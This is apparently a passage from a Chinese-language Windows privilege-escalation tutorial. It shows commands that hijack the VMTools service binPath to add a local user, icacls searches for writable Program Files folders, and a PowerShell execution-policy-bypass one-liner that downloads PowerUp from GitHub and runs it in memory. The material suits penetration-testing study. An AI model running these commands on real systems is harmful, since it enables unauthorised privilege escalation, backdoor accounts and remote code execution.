 ```plain
# 注意这里的"="后面要留有空格
sc config VMTools binPath= "net user test1 P@ssw0rd /add"  

# 查看查询该服务的执行路径是否修改成功
sc qc VMTools  

# 记得重启服务
sc stop VMTools
sc start VMTools

# 这里启动时可能存在报错，服务和 Windows 系统服务控制管理器通信会被认为错误，但命令会正常执行
```

自带命令 `icacls`  
命令如下

```plain
确定写入权限：icacls "C:\Program Files\program folder"
## 定义：
「M」表示修改、「F」表示完全控制
「CI」代表从属容器将继承访问控制项
「OI」代表从属文件将继承访问控制项

常用命令
icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files(x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"
icacls "C:\Program Files(x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"
```

### PowerSploit

利用 powershell 命令远程下载调用

```plain
powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"

powershell.exe -exec bypass -Command "& {Import-Module D:/PowerUp.ps1; Invoke-AllChecks}" > 1.txt
```

[![](assets/1709014237-9f13c46c15d904a79ed6771f4ce1191d.png)](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696646494329-3f8e16fb-2c47-424b-a886-2c8aee0a2c98.png#averageHue=%23fcfbf9&clientId=u08e1c2d2-d79d-4&from=paste&height=284&id=ud83136c2&originHeight=568&originWidth=1476&originalType=binary&ratio=2&rotation=0&showTitle=false&size=485000&status=done&style=none&taskId=uea497478-db9a-4438-9c0a-9f147a1deca&title=&width=738)
